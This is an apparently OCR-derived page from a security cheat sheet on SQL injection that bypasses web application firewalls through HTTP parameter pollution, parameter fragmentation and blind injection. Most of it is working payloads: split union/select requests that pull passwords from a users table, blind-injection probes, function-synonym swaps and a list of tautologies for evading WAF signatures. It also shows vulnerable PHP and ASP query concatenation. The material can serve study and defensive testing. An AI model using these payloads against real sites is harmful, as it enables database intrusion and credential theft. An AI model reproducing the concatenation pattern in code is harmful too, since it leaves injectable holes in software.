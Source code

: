 ![SQL Injection using HTTP Parameter Pollution](../assets/images/attacks/sql-injection-HPP.png)

**Using HTTP Parameter Pollution (HPP)**

• Vulnerable code

` SQL=" select key from table where id= "+Request.QueryString("id")`

• This request is successfully performed using the HPP technique

` /?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`

• The SQL request becomes select key from table where

` id=1/**/union/*,*/select/*,*/pwd/*,*/from/*,*/users`

**ByPassing WAF: SQL Injection – HPF**
Using HTTP Parameter Fragmentation (HPF)

• Vulnerable code example

` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);`
` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']." limit".$_GET['c']);`

• The following request doesn’t allow anyone to conduct an attack

` /?a=1+union+select+1,2/*`

• These requests may be successfully performed using HPF

` /?a=1+union/*&b=*/select+1,2`
` /?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--`

• The SQL requests become

` select * from table where a=1 union/* and b=*/select 1,2`
` select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users--`

**Bypassing WAF: Blind SQL Injection**
Using logical requests AND/OR
• The following requests allow one to conduct a successful attack for
many WAFs

` /?id=1+OR+0x50=0x50`
` /?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74`

<i>Negation and inequality signs (\!=, \<\>, \<, \>) can be used instead
of the equality one – It is amazing, but many WAFs miss it\!</i>

It becomes possible to exploit the vulnerability with the method of
blind-SQL Injection by replacing SQL functions that get to WAF
signatures with their synonyms.
<i> substring() -\> mid(), substr()
ascii() -\> hex(), bin()
benchmark() -\> sleep() </i>
<u>Wide variety of logical requests.</u>
and 1
or 1
and 1=1
and 2\<3
and 'a'='a'
and 'a'\<\>'b'
and char(32)=' '
and 3\<=2
and 5\<=\>4
and 5\<=\>5
and 5 is null
or 5 is not null
....
<b>An example of various request notations with the same meaning.</b>
select user from mysql.user where user = 'user' OR
mid(password,1,1)='\*'